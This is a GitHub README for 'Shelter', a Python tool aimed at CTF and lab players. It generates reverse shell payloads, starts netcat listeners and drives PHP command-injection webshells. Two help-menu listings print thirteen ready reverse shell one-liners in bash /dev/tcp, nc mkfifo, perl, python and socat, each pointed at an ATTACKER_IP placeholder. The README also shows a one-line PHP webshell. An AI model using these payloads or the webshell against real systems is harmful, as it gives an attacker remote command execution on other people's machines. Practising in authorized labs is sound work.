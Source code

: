 # Shelter
***
[![forthebadge](https://forthebadge.com/images/badges/built-with-love.svg)](https://forthebadge.com)  [![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)

![Supported Python versions](https://img.shields.io/badge/python-3.7+-blue.svg) ![Supported OS](https://img.shields.io/badge/Linux-FCC624?style=flat&logo=linux&logoColor=black)  [![Upload Python Package](https://github.com/Xyan1d3/shelter/actions/workflows/python-publish.yml/badge.svg)](https://github.com/Xyan1d3/shelter/actions/workflows/python-publish.yml)  ![PyPi Version](https://img.shields.io/pypi/v/pwnshelter.svg)  ![Licence](https://img.shields.io/pypi/l/pwnshelter.svg)  ![Wheel Status](https://pypip.in/wheel/pwnshelter/badge.svg) ![Github All Releases](https://img.shields.io/github/downloads/Xyan1d3/shelter/total.svg)  ![Issues](https://img.shields.io/github/issues/Xyan1d3/shelter)

**Shelter the magical Shell Handler.**
**A tool made for the Hackers by an Hacker.**
![](img/Pasted_image_20210428200307.png)
## What is it ?

Shelter is a new way to catch reverse shell's and also reduces the effort of visiting `pentestmonkey` and `highoncoffee`frequently for reverse shell payloads and changing of the `Attacker-IP` and `Attacker-Port` everytime.

Shelter is made to perform in 4 mode's. The required mode can be easily set by passing the argument of the mode to the script.
- **rev** : Generates and copies reverse shell payload with `IP` and `port` set to clipboard and also starts up a netcat.
- **web** : Webshell interactor for GET parameter command injection in php.
- **webrev** : Convert's a classic GET parameter command injection in php to a reverse shell.
- **host** : Will host post exploitation module's like `pspy`,`linpeas` etc. from the attackbox using `python http.server` or `updog` and copy the web url to the clipboard. 

**This tool is focused towards the solver's of `hackthebox`, `tryhackme` or any other labs with `vpn` connection.**

***
## ✨ Features
### rev Module
- Generate and copy revshell payload with `ATTACKERIP`[default: tun0] and `ATTACKERPORT`. 
- Start's Up a netcat listener on that port for catching the shell.
- Support's `13` language's of reverse shell payload's all tested.
**Only Linux payload's are supported for now.**
- Reduces the hassle of visiting `pentestmonkey` or `highoncoffee` reverse shell cheatsheet for geting reverse shell payloads and changing the `IP` and `PORT` on it everytime.
**This tools is not claiming to be better than pentestmonkey or highoncoffee by any means.**
### web Module
- Reduces the hassle of writting commands in `burpsuite` in time of php parameter command injection and url encoding every time.
- Automatically, URL encodes the command before sending it.

### webrev Module
- Converts a dumb GET parameter command injection to a reverse shell.
- Generates a reverse shell payload with set `ATTACKERIP`[default : tun0] and `ATTACKERPORT` and sends it to webserver url encoded.
- Starts up a netcat listner on the given `ATTACKERPORT` for catching the shell.
### host Module[Coming Soon...]
- It will create a `www` directory with `phpreverseshell`, `powershell reverseshell`, while setting the `ATTACKERIP` and `ATTACKERPORT` and post exploitation tools like `pspy`,`linpeas`,`winpeas` etc. using `updog` or classic `python http.server`.
- It will also copy the url of the file hosted from the server to the clipboard for easy pasting and `wgetting`
***
## Usage
### Rev Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py rev --help
usage: shelter.py rev [-h] {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat} ...

optional arguments:
  -h, --help            show this help message and exit

Available Payloads:
  {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat}
    bash                echo base64_encoded_bash-i_payload |base64 -d|bash
    bashi               bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
    bash196             0<&196;exec 196<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT; bash <&196 >&196 2>&196
    bashrl              exec 5<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT;cat <&5 | while read line; do $line 2>&5 >&5; done
    bash5               bash -i 5<> /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0<&5 1>&5 2>&5
    bashudp             bash -i >& /dev/udp/ATTACKER_IP/ATTACKER_PORT 0>&1
    nc_mkfifo           rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ATTACKER_IP ATTACKER_PORT >/tmp/f
    perl                perl -e 'use Socket;$i="ATTACKER_IP";$p=ATTACKER_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton
                        ($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
    py2                 python -c 'import
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
    py                  python3 -c 'import
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
    py2export           export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")'
    pyexport            export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python3 -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")
    socat               socat TCP:ATTACKER_IP:ATTACKER_PORT EXEC:'bash',pty,stderr,setsid,sigint,sane
```
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py rev py --help
usage: shelter.py rev py [-h] [--nohandler] [-i 127.0.0.1] [-p 8888]

optional arguments:
  -h, --help    show this help message and exit
  --nohandler   Copies only the revshell payload. [Does not start handler]
  -i 127.0.0.1  IP for reverse shell.
  -p 8888       PORT for reverse shell.
```

#### Taking a reverse shell from a docker container.
![](img/Pasted_image_20210428201310.png)

### Web Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py web --help
usage: shelter.py web [-h] [-f F] [-param PARAM] [--ssl] [--nossl] URL

positional arguments:
  URL           Target URL [http://127.0.0.1/cmd.php]

optional arguments:
  -h, --help    show this help message and exit
  -f F          Filename of the webshell [Default : cmd.php]. Incase you enter only ip in url arg.
  -param PARAM  GET parameter to send commands.[Default: cmd]
  --ssl         Force HTTPS
  --nossl       Force downgrade to HTTP
```

By default it assume's filename `cmd.php` and GET parameter `cmd` if not specified as an argument.

The php code responsible for getting a simple GET parameter webshell.
```php
root@6a647b5a3d5f:~# cat cmd.php 
<?php system($_GET[cmd]); ?>
```
#### Webshell on a docker container.
![](img/Pasted_image_20210428202006.png)

### Webrev Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py webrev --help                                                                                                                                        
usage: shelter.py webrev [-h] [-f F] [-param PARAM] [--ssl] [--nossl] URL {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat} ...
                                                                                    
positional arguments:                                                                                                                                                    
  URL                   Target URL [http://127.0.0.1/cmd.php]                       
                                          
optional arguments:                                                                 
  -h, --help            show this help message and exit
  -f F                  Filename of the webshell [Default : cmd.php]. Incase you enter only ip in url arg.
  -param PARAM          GET parameter to send commands.[Default: cmd]                                                                                                    
  --ssl                 Force HTTPS                                                 
  --nossl               Force downgrade to HTTP
  
Available Payloads:                                                                                                                                                      
  {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat}                                                                               
    bash                echo base64_encoded_bash-i_payload |base64 -d|bash          
    bashi               bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1                                                                                               
    bash196             0<&196;exec 196<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT; bash <&196 >&196 2>&196                                                                     
    bashrl              exec 5<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT;cat <&5 | while read line; do $line 2>&5 >&5; done                                                    
    bash5               bash -i 5<> /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0<&5 1>&5 2>&5
    bashudp             bash -i >& /dev/udp/ATTACKER_IP/ATTACKER_PORT 0>&1                                                                                               
    nc_mkfifo           rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ATTACKER_IP ATTACKER_PORT >/tmp/f                                                             
    perl                perl -e 'use Socket;$i="ATTACKER_IP";$p=ATTACKER_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton
                        ($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'                                                              
    py2                 python -c 'import                                                                                                                                
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);          
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'                                                                       
    py                  python3 -c 'import                                          
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);          
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'                                                                       
    py2export           export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in                    
                        (0,1,2)];pty.spawn("bash")'
    pyexport            export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python3 -c 'import                                                                      
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")
    socat               socat TCP:ATTACKER_IP:ATTACKER_PORT EXEC:'bash',pty,stderr,setsid,sigint,sane
```
#### Revshell on a docker container.
![](img/Pasted_image_20210428223306.png)

***
# Disclaimer
Don't use this script for any malicious or illegal purpose's. The Author or any contributor of this repository or tool is not responsible for any of those activities.
